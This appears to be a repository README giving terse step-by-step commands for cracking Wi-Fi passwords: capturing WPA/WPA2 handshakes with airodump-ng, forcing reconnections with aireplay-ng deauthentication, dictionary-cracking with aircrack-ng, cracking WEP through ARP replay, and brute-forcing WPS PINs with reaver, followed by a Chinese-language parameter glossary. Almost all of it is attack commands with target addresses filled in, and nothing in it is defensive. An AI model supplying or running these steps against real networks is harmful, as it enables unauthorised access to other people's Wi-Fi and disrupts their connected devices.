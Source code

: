 #1 crack wap/wap2 wifi step (https://github.com/aircrack-ng/aircrack-ng)
    1) #iwconfig (find your wireless device name)
    2) #airomon start wlan0(name) (start the listening mode)
    3) #airodump-ng wlan0mon  (scan all wifi, mon-show your card haved started in listening mode)
    4) #airodump-ng wlan0mon -c 11(target channel) --bssid 14:75:90:9E:29:8E(target wifi mac address)  (get the handshake packet .wap)
    5) #airodump-ng wlan0mon -c 11 --bssid 14:75:90:9E:29:8E -w output-file(.cap)  (waiting until get the handshake)
    6) #aireplay-ng wlan0mon -0 10(times) -a 14:75:90:9E:29:8E(target wifi) -c E0:DC:FF:DC:5A:89(device concated wifi)    (make handshake fast)
    7) #aircrack-ng outpu-file.cap -w your-password-dict.txt (crack the password)
    8) #airomon stop wlan0mon  (stop listening mode)

#2 crack wep wifi step
    1) #iwconfig (find your wireless device name)
    2) #airomon start wlan0(name) (start the listening mode)
    3) #airodump-ng --ivs -w myfile-target.ivs -c 6 wlan0mon  (get packet)
    4) #aireplay-ng -3 -b 14:75:90:9E:29:8E(target wifi) -h E0:DC:FF:DC:5A:89(device concated wifi) wlan0mon  (ArpRequest crack make fast)
    5) #aircrack-ng -b 14:75:90:9E:29:8E(target wifi) myfile-target-0xx.ivs (crack the password)
    6) #airomon stop wlan0mon  (stop listening mode)

#3 crack wifi pin use reaver (https://github.com/t6x/reaver-wps-fork-t6x)
    1) #iwconfig (find your wireless device name)
    2) #airomon start wlan0(name) (start the listening mode)
    3) #wash -i wlan0mon 
    4) #reaver -i wlan0mon -b 14:75:90:9E:29:8E(target wifi) -a -S -d9 -t9 -vv  (get pin)
    5) #reaver -i wlan0mon -b 14:75:90:9E:29:8E(target wifi) -p your pin  (get password)
    6) #airomon stop wlan0mon  (stop listening mode)


    参数可参数说明：
    -i  无线网卡名称
    -b  目标AP的mac地址
    -a  自动检测目标AP最佳配置
    -S  使用最小的DH key，可以提高破解速度
    -vv  显示更多的非严重警告（注意这是 2 个小写字母 v）
    -d  即delay每穷举一次的闲置时间 预设为1秒
    -c  信道编号
    -p  PIN码四位或八位  //可以用8位直接找到密码。



